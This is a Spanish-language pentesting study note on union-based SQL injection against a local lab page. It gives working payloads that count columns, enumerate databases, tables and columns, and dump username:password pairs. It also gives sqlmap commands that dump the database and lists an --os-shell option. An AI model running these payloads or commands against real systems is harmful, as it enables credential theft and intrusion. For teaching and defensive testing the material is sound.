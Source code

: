 -- -
Primero empezamos viendo la cantidad de columnas que existen con el uso de order by.
```sql
id=3' order by 100-- -
```

Una vez vimos la cantidad de columnas que existen empezamos con el uso de union select para empezar a ver el contenido almacenado.
```sql
id=3' union select 1
```
La cláusula UNION en SQL se utiliza para combinar los resultados de dos o más consultas SELECT.
En este caso, se intenta combinar los resultados de la consulta original con los resultados de una nueva consulta que el atacante introduce.

Esto nos tendria que mostrar el dato que esta almacenado en la primer columna de la tabla.
Pero si en vez de poner un identificador valido, ponemos unos no valido nos va a empezar a reflejar lo que ponemos, y ahi es cuando podemos  empezar a ejecutar de todo.  
```sql
id=32' union select database();
```

Con este comando le pedimos que nos liste todas las bases de datos existentes.
```sql
id=32' union select schema_name from information_schema.schemata-- -
```
- **schema_name** --->   columna en la tabla schemata dentro del esquema information_schema. Esta columna contiene los nombres de todas las bases de datos (schemas) en el servidor.
- **information_schema** ---> Esquema especial en MySQL que contiene vistas de metadatos 
- **schemata** ---> Es una tabla dentro del esquema information_schema


El problema es que a veces los resultados terminan siendo limitados. Para evitar eso es mejor jugar con la funcion group_concat() o con limits.
**group_concat** ---> Función que concatena los nombres de todas las tablas en una única cadena, separada por comas.
```sql
id=32' union select group_concat(schema_name) from information_schema.schemata-- -
id=32' union select schema_name from information_schema.schemata limit 0,1-- -
```

Luego, para enumerar las tablas de cierta base de datos podriamos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -
```

Luego, tambien para ver las columnas tendriamos q hacer algo muy similiar a lo anterior.
```sql
id=32' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -
```

Para listar los usuarios podemos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(username) from users-- -
```

Para listar los usuarios podemos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(username,':',password) from users-- -
```

## Aclaraciones
------- 
- Con el order by tenemos que poner siempre la cantidad de columnas con un solo numero. Por ejemplo si la consulta sql es **"select username,password from users where id = '$id'")**, entonces la inyeccion con el order by seria: **id=1' order by 2-- -** ya que la consulta en si le esta pegando a 2 columnas dentro de la tabla.

- Luego, con el union select tendriamos que darle la cantidad de columas separadas por comas junto con un id valido, por ejemplo: **id=1' union select 1,2-- -** . Despues tendriamos que darle un valor erroneo al id para ver cual de los 2 numero separados por la coma nos muestra la pagina, ejemplo **id=-1' union select 1,2-- -**. Una vez vemos cual es el que nos muestra ahi mismo es donde tenemos que empezar a inyectar los comandos. **id=-1' union select database(),2-- -.
-- - 
## Sqlmap
-- - 
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbs --cookie "PHPSESSID=8123791283"
sqlmap -u 'http://localhost/searchUsers.php?id=1' --cookie "PHPSESSID=812312" --dbms mysql --batch -D Hack4u --tables
sqlmap -u 'http://localhost/searchUsers.php?id=1' --cookie "PHPSESSID=812312" --dbms mysql --batch -D Hack4u -T users --columns
sqlmap -u 'http://localhost/searchUsers.php?id=1' --cookie "PHPSESSID=812312" --dbms mysql --batch -D Hack4u -T users -C username,password --dump
```

```bash
--dbs --> Enumera los posibles DBMS que hay de fondo.
--dbms --> solamente prueba payloads para el dbms que le indiquemos. Ej: mysql, oracle, etc.
--batch --> Hace que tome las opciones por defecto.
-D --> Especificamos la base de datos a enumerar.
-T --> Especificamos la tabla a enumerar.
-C --> Indicamos columnas a enumerar.
--os-shell --> Intenta darnos una consola interactiva.
--dump --> Dumpea la base de datos y si las contraseñas estan hasheadas realiza un brute force attack para intentar descubrirlas.
--cookie --> setea cookie de sesion para poder acceder a cierto endpoint de la URL.
--risk --> Nivel de riesgo a probar (1-3, default 1)
--level --> Nivel de testeos a probar (1-5, default 1)
```
-- - 
